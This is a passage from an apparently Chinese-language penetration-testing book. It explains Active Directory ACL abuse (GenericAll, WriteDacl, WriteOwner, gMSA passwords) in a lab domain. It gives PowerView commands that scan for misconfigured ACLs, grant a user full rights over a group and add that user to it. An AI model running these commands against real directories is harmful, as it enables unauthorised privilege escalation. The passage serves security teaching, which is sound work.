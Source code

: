 正如我们在思维导图上看到的，最强大的权限是`GenericAll`。它为攻击者打开了各种滥用选项。`ReadLAPSPassword` 属性在*第四章*中已经讨论过。对于计算机和用户应用的`WriteProperty` 权限可以导致**影子凭据攻击**，这将在稍后的*第八章*中进行讨论，因此在即将到来的部分中没有提到。

一个稍微不寻常的特例与`ReadGMSAPassword` ACL 滥用有关。攻击者需要控制列在目标对象的`msDS-GroupMSAMembership` ACL 中的对象。简而言之，这是允许查询 gMSA 密码的对象列表。

## 组

从攻击者的角度来看，如果攻击者控制了组上的以下 ACL 之一（`GenericAll**, **GenericWrite**, **Self**, **WriteProperty` 或 **AllExtendedRights**），则可以将对象添加到组中。`WriteOwner` 权限允许攻击者获得组的所有权。如果还控制了`WriteDacl`，则可以结合这两个权限，并将`GenericAll` 权限授予自身，从而有效地获得对组的完全控制。我们将在`sevenkingdoms`域中执行扫描，以检测配置错误，借助`PowerView` 的帮助：

```
Invoke-ACLScanner -Domain sevenkingdoms.local
```

结果如下截图所示：

![图 6.12 – tywin.lannister 在小委员会组上拥有 WriteDacl 权限](img/B18964_06_12.jpg)

图 6.12 – tywin.lannister 在小委员会组上拥有 WriteDacl 权限

为了滥用`WriteDacl`特权，我们需要为`tywin.lannister`添加对该组的完全控制权限，然后将其添加到该组。我们可以通过两条 PowerView 命令来实现：

```
Add-DomainObjectAcl -TargetIdentity "Small Council" -PrincipalIdentity tywin.lannister -Domain sevenkingdoms.local -Rights All -Verbose
Add-DomainGroupMember -Identity "Small Council" -Members tywin.lannister -Verbose
```

前述命令的结果如下图所示：

![图 6.13 – tywin.lannister 将自己添加到小委员会组](img/B18964_06_13.jpg)
